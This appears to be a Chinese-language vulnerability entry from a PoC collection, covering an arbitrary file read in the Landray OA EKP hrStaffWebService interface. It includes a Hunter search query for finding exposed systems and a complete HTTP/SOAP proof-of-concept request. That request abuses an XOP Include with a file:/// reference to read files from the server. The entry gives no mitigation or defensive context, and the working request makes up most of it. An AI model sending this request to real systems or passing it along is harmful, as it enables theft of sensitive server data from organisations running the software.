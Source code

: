 # 蓝凌OA-EKP系统接口hrStaffWebService存在任意文件读取漏洞
蓝凌核心产品EKP平台定位为新一代数字化生态OA平台，数字化向纵深发展，正加速构建产业互联网，对企业协作能力提出更高要求，蓝凌新一代生态型OA平台能够支撑办公数字化、管理智能化、应用平台化、组织生态化，赋能大中型组织更高效的内外协作与管理，支撑商业模式创新与转型发展。深圳市蓝凌软件股份有限公司数字OA(EKP)存在任意文件读取漏洞。攻击者可利用该漏洞获取服务器敏感信息。

# hunter
```javascript
app.name="Landray 蓝凌OA"
```

![](https://cdn.nlark.com/yuque/0/2023/png/1622799/1699624430077-2cffea44-6670-4ae3-81c6-97bae85b26fd.png)

## poc
```java
POST /sys/webservice/hrStaffWebService HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Content-Length: 563
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US;q=0.9,en;q=0.8
Cache-Control: max-age=0
Connection: close
Content-Type: multipart/related; boundary=----frhpvivnctknnkiwugaq
SOAPAction: ""

------frhpvivnctknnkiwugaq
Content-Disposition: form-data; name="1"

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://webservice.staff.hr.kmss.landray.com/">
<soapenv:Header/>
<soapenv:Body>
    <web:getHrStaffElements>
        <arg0>
            <beginTimeStamp>1</beginTimeStamp>
            <count><xop:Include 
xmlns:xop="http://www.w3.org/2004/08/xop/include" 
href="file:///"/></count>
        </arg0>
    </web:getHrStaffElements>
</soapenv:Body>
</soapenv:Envelope>
------frhpvivnctknnkiwugaq--
```

![](https://cdn.nlark.com/yuque/0/2024/png/1622799/1730429801848-e18487e1-ff5e-479a-af65-8a405e0f6c6b.png)

